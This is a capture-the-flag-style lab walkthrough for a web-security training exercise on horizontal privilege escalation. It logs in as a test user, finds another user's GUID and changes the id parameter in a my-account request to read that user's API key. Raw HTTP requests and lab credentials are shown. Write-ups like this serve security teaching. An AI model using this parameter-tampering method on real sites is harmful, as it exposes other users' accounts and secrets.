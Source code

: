 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514002057.png)

### User ID controlled by request parameter, with unpredictable user IDs
```bash

# This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

# To solve the lab, find the GUID for carlos, then submit his API key as the solution.

# You can log in to your own account using the following credentials: wiener:peter 

Login to wiener:peter
Go to: "Home"
Search through the blogs and find the username "carlos" who created the "Hobbies" blog
Intercept is on
Click "carlos"
Send to repeater or take note of the "id"

GET /blogs?userId=a49108c2-b1c8-4126-95a5-67df0a5c5971 HTTP/1.1

Click "My account" or browse through the history until you find

GET /my-account?id=f56d2e64-7afe-44dc-92ca-595973ffa7d2 HTTP/1.1

With a response of:

'Your username is: wiener'

'Your API Key is: JM1fdP1QImFYurVRnrg6i9djNEp6MaAQ'

Send to repeater

Change the id of "wiener" to the id of "carlos"

GET /my-account?id=f56d2e64-7afe-44dc-92ca-595973ffa7d2 HTTP/1.1

To

GET /my-account?id=a49108c2-b1c8-4126-95a5-67df0a5c5971 HTTP/1.1

'Your username is: carlos'

'Your API Key is: PmfYjZp2YEte4IyRggSM5f0uqHFxccvY0'

```


![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514003253.png)
